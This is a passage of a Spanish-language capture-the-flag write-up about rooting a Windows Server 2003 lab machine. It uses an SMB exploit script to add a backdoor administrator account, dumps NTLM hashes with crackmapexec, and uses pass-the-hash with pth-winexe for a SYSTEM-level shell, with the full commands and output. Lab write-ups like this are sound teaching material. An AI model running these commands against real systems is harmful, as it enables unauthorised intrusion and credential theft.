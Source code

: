 ```bash
```

Donde el método `service_exec()` es el que se encargara de ejecutar comandos como administrador.

Para acceder a la máquina utilizando el exploit haremos lo siguiente:

Creamos un usuario.
```bash
service_exec(conn, r'cmd /c net user intrusion Hola123! /add')
```
Ejecutamos el exploit.
```console
intrusionz3r0@kali:~$ sudo python zzz_exploit.py 127.0.0.1 samr
```
Lo convertimos en administrador.
```bash
service_exec(conn, r'cmd /c net localgroup Administrators intrusion /add')
```
Ejecutamos nuevamente el exploit.
```console
intrusionz3r0@kali:~$ sudo python zzz_exploit.py 127.0.0.1 samr
```

Ahora ejecuto `crackmapexec` para verificar que el usuario se haya creado correctamente y que pertenecemos al grupo de administradores.

![](https://lh4.googleusercontent.com/CcQQDAaZ3DvFON79VKRDlnQumPfwD4Dm-8Brv7Y6nEnxHqIwVwDgHWZBTBWNNhBELsOrXXJ87ffLZXe75R0VaM2grB_fvp1GoxJM7Aso_Ztcr1_J91Zyme8nvUo6QSNs1ChEjtHs)

Como pueden observar en la segunda ejecución de crackmapexec aparece la palabra `Pwn3d` lo que significa que nosotros tenemos altos privilegios y podemos aprovecharnos de esto para obtener el hash `NTLM` de los usuarios.

Para ello ejecuto el siguiente comando:
```console
intrusion@kali:~$ cme smb 127.0.0.1 -u 'intrusion' -p 'Hola123' --sam
```

![](https://lh4.googleusercontent.com/wEmg1Hg15COxMrOh9eopyKpuboc49yNk2lq5o4JFE3E3DRUr8DCptuNjCTD6m9DYCUZiikMckCphi3YaeVVlqgTyUNHS7svYyd6O2sD876U785jwtqBxCkqa4waXIE394yf_OxY0)

Obtenemos los hashes NTLM de todos los usuarios de la máquina.

# Shell como administrador.

Para finalizar haremos passthehash como el usuario administrator.
```
intrusionz3r0@kali:~$ pth-winexe -U WORKGROUP/Administrator%0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548 //127.0.0.1 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 5.2.3790]
Copyright (c) 1985-2003 Microsoft Corporation. 

c:\WINDOWS\system32>whoami
grandpa\administrator
```
**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)


Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**
